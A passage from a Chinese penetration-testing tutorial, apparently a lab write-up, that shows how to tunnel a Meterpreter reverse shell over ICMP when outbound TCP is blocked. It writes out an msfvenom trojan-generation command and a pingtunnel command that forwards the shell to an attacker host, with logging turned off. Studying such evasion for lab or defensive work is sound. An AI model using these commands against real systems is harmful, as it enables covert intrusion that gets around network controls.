 #### 4.2.2.2. 攻击机情况

这里我们开启监听即可。

![image-20230516100931386](assets/Cz1doMbPRHhU8ZY.png)

### 4.2.3. MSF设置

这里我们需要注意的点有很多，由于我们之前使用的是MSF直接生成远程连接的木马，比如你攻击机的IP是多少，那么生成木马的时候远程连接的IP就是你的攻击机IP，但是这里不一样的了，我们来下面介绍一下。

#### 4.2.3.1. 区别介绍

可能会发现，这里我们生成的木马是127.0.0.1了，这是由于需要配合刚刚的TCP转ICMP工具，可以看下面的命令我再一条一条解释：

MSF生成木马：由于再目标主机上TCP已经被封杀了，如果我们还写攻击机的IP地址，那么当运行木马的时候，会直接被拦截，导致木马失效，而如果设置木马为本地地址，那么就不会被封杀，只是会再本地一直停留打转，但这样可以确保木马在运行的状态。

工具转发命令：而工具转发，首先工具去将刚刚木马的127.0.0.1：5555端口的流量封装成ICMP流量，然后将这个流量转发到192.168.10.20：6666上，而且192.168.10.20也就是我们的攻击机，这样就完成了整套的流量封装与转发。

而我们要监听的端口，以往都是木马设定的回连端口是多少，我们就监听多少，而现在我们要监听的端口是工具转发回来的端口，也就是6666.

```
MSF生成木马：
msfvenom -p windows/meterpreter/reverse_tcp LHOST=127.0.0.1 LPORT=5555 -f exe > msf.exe

工具转发命令：
pingtunnel.exe -type client -l 127.0.0.1:5555 -s 192.168.10.20 -t 192.168.10.20:6666 -tcp 1 -noprint 1 -nolog 1
```

#### 4.2.3.2. 生成木马

关于生成木马，命令上面都有了，这里我就不说了，然后将木马上传到目标机器中。

![image-20230516104133278](assets/Htp4ZIMeNPiOkdx.png)
